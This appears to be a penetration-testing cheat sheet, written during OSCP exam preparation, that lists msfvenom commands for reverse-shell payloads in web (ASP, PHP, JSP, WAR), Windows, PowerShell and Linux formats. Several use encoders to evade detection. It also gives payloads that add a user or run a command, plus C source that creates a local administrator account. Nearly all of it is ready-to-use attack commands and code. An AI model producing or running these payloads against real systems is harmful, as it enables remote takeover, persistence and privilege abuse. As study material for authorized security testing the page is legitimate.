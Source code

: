 ```yaml
---
icon: shield-halved
description: Generate payload with MSFvenom
---
```


# MSFvenom Generate Payload

### Listing Available Options

```bash
msfvenom -l payloads # Payloads
msfvenom -l encoders # Encoders
msfvenom -l platforms # Platforms
msfvenom -l formats # Formats
```

{% hint style="info" %}
**Note**: I created this page during my OSCP preparation. All payloads here are for gaining a reverse shell through Netcat, as Metasploit (or Meterpreter) is prohibited.
{% endhint %}

### Web Based Payload

ASP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f asp > asuka.asp
```

PHP Payload

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
echo "<?php" | cat - shell.php > temp && mv temp shell.php
```

JSP Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=31337 -f raw > shell.jsp
```

WAR Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=31337 -f war > shell.war
```

### Windows

Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe -o adduser.exe
```

Execute Command

{% code overflow="wrap" %}
```bash
# x86
msfvenom -a x86 -p windows/exec CMD="calc.exe" -e x86/shikata_ga_nai -f exe -o payload.exe
# x64
msfvenom -p windows/x64/exec CMD="calc.exe" -f exe -e x64/xor_dynamic -o payload-x64.exe
```
{% endcode %}

Reverse Shell

{% code overflow="wrap" %}
```bash
# x86
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4443 -f exe -e x86/shikata_ga_nai -o reverse86.exe
# x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4443 -f exe -e x64/xor_dynamic -o reverse64.exe
```
{% endcode %}

PowerShell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=wlan0 LPORT=31337 -f psh -e x64/xor_dynamic -o rev.ps1
```
{% endcode %}

### Linux

{% code overflow="wrap" %}
```bash
# x86
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=1337 -e x86/shikata_ga_nai -f elf -o asuka-x86.elf
# x64
msfvenom -a x64 -p linux -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -e x64/xor_dynamic -f elf -o asuka-64.elf
```
{% endcode %}

### Add Windows User

**adduser.c**

{% code overflow="wrap" %}
```c
#include <stdlib.h>

int main ()
{
	int i;
	i = system ("net user admoon Linuxsec#1337 /add");
	i = system ("net localgroup administrators admoon /add");

		return 0;
}
```
{% endcode %}

Compile:

{% code overflow="wrap" %}
```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
{% endcode %}
